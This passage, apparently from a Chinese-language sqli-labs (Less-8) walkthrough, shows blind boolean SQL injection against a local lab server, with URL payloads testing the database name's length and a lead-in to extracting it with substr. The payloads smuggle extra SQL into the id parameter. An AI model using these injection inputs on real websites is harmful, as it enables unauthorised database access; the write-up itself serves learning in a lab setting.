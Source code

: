 然后测试小于8

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length(database())%3C8%23
SQL:
SELECT * FROM users WHERE id='1' and length(database())<8#' LIMIT 0,1;
;
```

网站无返回

![](image/9.jpg)

再测试8

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length(database())=8%23
SQL:
SELECT * FROM users WHERE id='1' and length(database())=8#' LIMIT 0,1;
;
```

网站有返回，确定长度为8。

![](image/8.jpg)

### 获取数据库名

由于没有回显，所以无法像`union`联合查询那样可以一下子把数据库名给爆出来，只能通过`substr`函数以截取字符串的方式进行获取。
